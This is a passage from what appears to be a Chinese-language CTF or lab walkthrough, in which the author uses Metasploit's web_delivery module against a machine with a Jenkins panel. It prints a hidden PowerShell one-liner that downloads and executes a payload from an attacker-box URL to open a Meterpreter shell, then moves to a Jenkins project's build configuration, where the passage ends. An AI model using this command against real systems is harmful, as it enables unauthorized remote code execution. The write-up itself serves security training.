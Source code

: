 ```
**msf5 exploit(multi/script/web_delivery) >** 
[*] Started HTTPS reverse handler on https://<attackbox ip>:4444
[*] Using URL: http://<attackbox ip>:8080/lH2GrCFxu1
[*] Server started.
[*] Run the following command on the target machine:
powershell.exe -nop -w hidden -c $Z=new-object net.webclient;$Z.proxy=[Net.WebRequest]::GetSystemWebProxy();$Z.Proxy.Credentials=[Net.CredentialCache]::DefaultCredentials;IEX $Z.downloadstring('http://<attackbox ip>:8080/lH2GrCFxu1');
```

Meterpreter 给了我一个在目标机器上执行的 PowerShell 命令。将我的注意力转回到 Jenkins 面板，我注意到 Jenkins 面板中有一个现有的项目(图 5a)，并决定检查它。

![](img/d8b39fe1cca0f88103f102c630305ac0.png)

**图 6:“项目”的项目空间**

为了得到一个 Meterpreter shell，我点击了“[c]configure”(图 6a)并向下滚动到“[b]build”部分:

